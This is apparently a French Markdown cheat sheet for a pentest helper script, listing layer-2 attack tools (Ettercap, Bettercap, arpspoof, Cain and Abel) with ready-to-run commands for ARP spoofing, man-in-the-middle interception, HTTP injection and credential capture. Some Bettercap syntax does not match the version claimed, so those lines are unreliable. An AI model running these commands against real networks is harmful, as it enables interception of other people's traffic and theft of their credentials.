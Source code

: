# Couche 2 (Liaison) – Attaques et Outils

**Version Testée :**
- Ettercap 0.8.x
- Bettercap 2.x
- Arpspoof (dsniff)
- Cain and Abel (Windows)

**Description :**  
Ce document recense les outils et attaques disponibles pour la couche Liaison du modèle OSI. La couche 2 gère le contrôle d’accès au média et la transmission des trames sur le réseau local.  
Les attaques typiques incluent le spoofing ARP, les attaques MITM (Man-In-The-Middle) et l’injection de paquets.  
Le script automatisé analysera ce fichier pour :
- Lister les outils disponibles (sections marquées par **"### Outil:"**),
- Afficher, pour chaque outil, les attaques possibles (sections marquées par **"#### Attaque:"**),
- Proposer les commandes associées pour chaque attaque (commandes présentées dans des blocs de code sous **"###### Commande:"** avec une section "Détails :" ).

Vous pourrez enrichir ce fichier ultérieurement sans modifier le script.

---

### Outil: Ettercap
**Description :**  
Ettercap est un outil puissant pour l'interception de trafic et l'exécution d'attaques MITM par ARP spoofing. Il permet de capturer, modifier et injecter du trafic réseau en temps réel.

#### Attaque: ARP Spoofing / MITM
*Détails de l'attaque :*  
Positionner l'attaquant entre la victime et la passerelle pour intercepter le trafic réseau.

##### Commandes Clés

###### Commande: Lancer Ettercap en mode texte
```bash
ettercap -T
```
Détails :
- Utilisation en mode texte pour l'interception.

###### Commande: ARP Spoofing ciblé
```bash
ettercap -T -M arp:remote /192.168.1.1// /192.168.1.2//
```
Détails :
- Cibler la passerelle (192.168.1.1) et la victime (192.168.1.2).

###### Commande: Sniffer et logger
```bash
ettercap -T -M arp -i eth0 -L logfile
```
Détails :
- Enregistrer le trafic sur l'interface eth0.

#### Attaque: Injection de paquets HTTP
*Détails de l'attaque :*  
Modifier en temps réel le trafic HTTP non chiffré pour injecter du code malveillant.

##### Commandes Clés

###### Commande: Injection de scripts HTTP
```bash
ettercap -T -M arp:remote -i eth0 -F filter.ec
```
Détails :
- Utilise un fichier de filtre (filter.ec) pour modifier le trafic HTTP.

---

### Outil: Bettercap
**Description :**  
Bettercap est un framework moderne de MITM et d'analyse réseau, offrant une interface web et des modules extensibles pour diverses attaques sur le réseau local.

#### Attaque: ARP Spoofing avancé
*Détails de l'attaque :*  
Manipuler les tables ARP pour rediriger le trafic d'une cible vers l'attaquant.

##### Commandes Clés

###### Commande: Lancer Bettercap en mode interactif
```bash
bettercap -I eth0
```
Détails :
- Utilisation de l'interface eth0.

###### Commande: Exécuter un caplet ARP spoofing
```bash
bettercap -X -caplet arp.spoof
```
Détails :
- Utilise le caplet "arp.spoof" pour lancer l'attaque.

#### Attaque: Sniffing de paquets
*Détails de l'attaque :*  
Capturer et analyser le trafic réseau pour détecter des vulnérabilités ou informations sensibles.

##### Commandes Clés

###### Commande: Capture de paquets en temps réel
```bash
bettercap -X -I eth0
```
Détails :
- Affichage en temps réel des paquets.

---

### Outil: Arpspoof (dsniff)
**Description :**  
Arpspoof, issu du paquet dsniff, est un outil simple pour effectuer du spoofing ARP et détourner le trafic dans un LAN.

#### Attaque: Détournement ARP simple
*Détails de l'attaque :*  
Rediriger le trafic réseau d'une cible en falsifiant les réponses ARP.

##### Commandes Clés

###### Commande: Spoofing vers la cible
```bash
arpspoof -i eth0 -t 192.168.1.2 192.168.1.1
```
Détails :
- Cible : 192.168.1.2, passerelle : 192.168.1.1.

###### Commande: Spoofing vers la passerelle
```bash
arpspoof -i eth0 -t 192.168.1.1 192.168.1.2
```
Détails :
- Inverse la cible pour rediriger le trafic dans les deux sens.

---

### Outil: Cain and Abel
**Description :**  
Cain and Abel est un outil de récupération de mots de passe pour Windows, qui inclut des fonctionnalités d'ARP spoofing et de capture de trafic (interface graphique).

#### Attaque: ARP Spoofing et capture d'identifiants
*Détails de l'attaque :*  
Utiliser Cain and Abel pour réaliser du spoofing ARP et récupérer des informations sensibles via l'interface graphique.

##### Commandes Clés

###### Commande: Lancer Cain and Abel
```bash
# Démarrer Cain and Abel via l'interface Windows.
```
Détails :
- Utiliser l'interface graphique pour lancer l'attaque et récupérer les identifiants.
```